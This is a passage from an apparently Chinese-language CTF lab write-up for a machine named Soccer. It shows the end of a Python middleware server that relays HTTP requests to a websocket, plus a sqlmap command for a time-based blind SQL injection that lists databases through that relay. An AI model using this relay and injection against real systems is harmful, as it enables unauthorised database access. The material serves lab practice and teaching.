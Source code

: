 ```
			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('127.0.0.1',8081))
except KeyboardInterrupt:
	pass
```

需要修改ws_server和data参数

需要安装websocket-client

```
pip3 install websocket-client
```

然后在本地运行脚本开启转发，使用sqlmap进行注入,已经知道是盲注了，直接指定注入方法为时间注入

```
sqlmap -u "http://127.0.0.1:8081/?id=1" --batch --dbs -p id --technique T --exclude-sysdbs
```

![image-20250319163423038](./././././././././././Soccer/image-20250319163423038.png)

![image-20250319180159385](./././././././././././Soccer/image-20250319180159385.png)
